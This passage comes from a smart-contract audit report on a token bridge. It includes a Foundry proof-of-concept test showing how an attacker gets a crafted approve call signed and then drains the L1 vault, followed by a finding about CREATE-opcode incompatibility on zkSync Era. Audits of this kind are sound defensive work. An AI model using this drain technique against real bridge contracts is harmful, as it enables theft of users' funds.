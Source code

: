 It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.



### [H-5] `CREATE` opcode does not work on zksync era

The `TokenFactory::deployToken` function uses the `CREATE` opcode through inline assembly, which is not supported in zkSync Era. This will cause deployment failures when the bridge is deployed on zkSync Era.

**Impact**: Deployment will fail completely on zkSync Era, breaking cross-chain functionality.

**Vulnerable Code**:
```solidity
function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
    assembly {
        addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
    }
}
```
